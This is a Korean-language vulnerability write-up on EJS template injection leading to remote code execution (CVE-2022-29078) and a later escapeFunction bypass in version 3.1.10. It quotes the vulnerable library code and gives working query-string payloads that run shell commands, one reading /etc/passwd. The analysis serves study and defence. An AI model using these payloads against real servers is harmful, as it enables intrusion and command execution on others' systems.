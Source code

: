```yaml
---
title: ["EJS SSTI2RCE (CVE-2022-29078)"]
date: 2024-12-26 09:00:00 +0900
categories: [techniques, ejs]
tags: [web, ejs, ssti, ssti2rce, cve]
---
```


# EJS 3.1.6 RCE 취약점 분석

## 취약점 개요
* CVE 번호: CVE-2022-29078
* 영향받는 버전: ejs <= 3.1.6
* 취약점 유형: Remote Code Execution (RCE)
* 심각도: Critical (CVSS 9.8)

## 취약점 발생 원리

### 데이터 처리 과정
EJS는 템플릿을 렌더링 시 다음과 같은 과정을 거친다.
```javascript
// Express에서 render 호출
res.render('index', req.query)

// EJS 내부에서 데이터 처리
// https://github.com/mde/ejs/blob/80bf3d7dcc20dffa38686a58b4e0ba70d5cac8a1/lib/ejs.js#L454
data = args.shift(); // req.query가 data 변수에 저장됨
```

### 설정 복사 메커니즘
```javascript
// https://github.com/mde/ejs/blob/80bf3d7dcc20dffa38686a58b4e0ba70d5cac8a1/lib/ejs.js#L473
viewOpts = data.settings['view options'];
if (viewOpts) {
    utils.shallowCopy(opts, viewOpts);
}
```
* `data.settings['view options']`의 값이 `viewOpts`에 저장
* `viewOpts`가 존재하면 `opts` 객체에 얕은 복사 수행
* 사용자가 전달한 설정이 `opts` 객체로 전달

### 취약한 코드
```javascript
// https://github.com/mde/ejs/blob/80bf3d7dcc20dffa38686a58b4e0ba70d5cac8a1/lib/ejs.js#L584
if (!this.source) {
    this.generateSource();
    prepended += '  var __output = "";\n' +
                '  function __append(s) { if (s !== undefined && s !== null) output += s }\n';
    if (opts.outputFunctionName) {
        prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
    }
    // ...
}
```
취약점이 발생하는 주요 원인으로, `prepended` 변수에 JavaScript 코드가 문자열로 저장되고, `opts.outputFunctionName`이 존재하면 해당 값이 코드에 그대로 삽입되어 RCE가 발생하게 된다.  

## 취약점 익스플로잇
### 공격 방법
RCE 페이로드 예시  
```
/?settings[view options][outputFunctionName]='.toString();require("child_process").execSync("cat /etc/passwd");//
```
1. `req.query`가 render 함수의 데이터로 전달
2. `data.settings['view options']`가 opts 객체에 복사
3. `opts.outputFunctionName`의 값이 JavaScript 코드에 삽입
4. 삽입된 악성코드가 서버에서 실행


## EJS 3.1.10
CVE-2022-29078은 EJS 3.1.7에서 패치가 되었다.  
`_JS_IDENTIFIER`를 통한 필터링을 통해 패치가 되었는데, 다른 지점에서 유사한 렌더링 취약점을 일으킬 수가 있다.  

### 취약한 코드
```javascript
// https://github.com/mde/ejs/blob/e469741dca7df2eb400199e1cdb74621e3f89aa5/lib/ejs.js#L580
var escapeFn = opts.escapeFunction;
// ...

// https://github.com/mde/ejs/blob/e469741dca7df2eb400199e1cdb74621e3f89aa5/lib/ejs.js#L636
if (opts.client) {
    src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
    if (opts.compileDebug) {
    src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
    }
}
```
`client` 옵션이 true일 때, `escapeFn`을 문자열로 변환하여 코드에 삽입되고, `escapFn`은 `opts.escapeFunction`으로 설정 가능하다.  

### 취약점 익스플로잇
1. client 옵션 활성화
   ```
   settings[view options][client]=true
   ```
   `escapeFn.toString()`을 통한 코드 실행이 가능하게 됨

2. escapeFunction 조작
   ```
   settings[view options][escapeFunction]=process.mainModule.require('child_process').execSync
   ```
   `opts.escapeFunction`을 통해 원하는 함수로 대체하고, Node.js의 `child_process` 모듈을 이용해 시스템 명령어 실행이 가능함


CVE-2022-29078을 패치하기 위해 `_JS_IDENTIFIER` 필터링이 추가되고, `ouputFunctionName`이 위험해서 제거했으나, escape 함수를 통해 새로운 취약점이 발생한 케이스이다.  
템플릿 엔진에서 사용자의 입력값이 적절한 검증 없이 코드 실행에 사용될 때 발생하는 전형적인 보안 이슈이다.  